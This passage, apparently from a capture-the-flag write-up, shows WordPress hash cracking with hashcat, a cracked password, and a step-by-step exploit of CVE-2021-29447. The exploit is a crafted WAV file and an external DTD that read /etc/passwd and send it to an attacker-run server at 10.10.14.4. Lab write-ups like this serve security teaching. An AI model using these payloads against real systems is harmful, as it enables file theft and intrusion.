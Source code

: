 ```
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|
```

> Note: the nonce is a number used once. It is a security token. You can read more about it [here](https://www.hostinger.com/tutorials/wordpress-nonce).  
> You will need to find yours. I recommend that you intercept traffic with burp and check your nonce this way.

- We now need to crack the hashes. Wordpress hashes are stored in md5. We can do it with hashcat `hashcat -O -m 400 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt`
- We get the password for manager `$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar`
- Let's connect using it. We do not have much access with this user. Let's check for password reuse.
- Password does not work on ftp 
- Does not work on ssh either

### CVE 2021 29447

- When analyzing wpscan we had a vulnerability that seemed interesting `CVE-2021-29447` for our version of wordpress 5.6.2. This [article](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/) explains it well.
- Using this trick we can read files from the server.
- Here is how I did it in my context

1. I created the wav file `echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.4/evil.dtd'"'"'>%remote;%init;%trick;] >\x00'> malicious.wav`

2. I created the evil.dtd file. Here is what it contains

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#37; trick SYSTEM 'http://10.10.14.4/?p=%file;'>" >
```

3. I created a decode.php file

```php
<?php
echo zlib_decode(base64_decode('STRING-TO-DECODE-HERE'));
?>
```

4. I launched the php server `php -S 0.0.0.0:80`

5. I uploaded my wav file in the media library  

![upload wav](../.res/2022-12-19-10-55-49.png)

